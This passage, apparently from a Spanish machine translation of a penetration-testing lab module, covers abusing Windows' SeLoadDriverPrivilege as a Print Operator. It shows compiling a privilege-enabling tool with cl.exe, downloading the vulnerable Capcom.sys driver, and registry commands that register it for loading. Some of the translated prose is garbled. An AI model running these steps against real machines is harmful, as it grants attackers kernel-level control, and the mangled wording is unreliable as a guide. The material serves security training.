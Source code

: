 Descárguelo localmente y edítelo, pegando sobre las incluyas a continuación.

Código:do

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

A continuación, desde un símbolo del sistema de desarrolladores de Visual Studio 2019, compítelo usando**cl.exe**.

#### Compilar con cl.exe

  Operadores de impresión

```cmd-session
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

#### Agregar referencia al controlador

A continuación, descargue el`Capcom.sys`conductor de[aquí](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), y guárdelo a`C:\temp`. Emite los comandos a continuación para agregar una referencia a este controlador en nuestro árbol HKEY_CURRENT_USER.

  Operadores de impresión

```cmd-session
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.


C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```

La sintaxis impar`\??\`Solía ​​hacer referencia a nuestro ImagePath de controlador malicioso es un[Ruta de objeto NT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). La API Win32 analizará y resolverá esta ruta para localizar y cargar correctamente nuestro controlador malicioso.
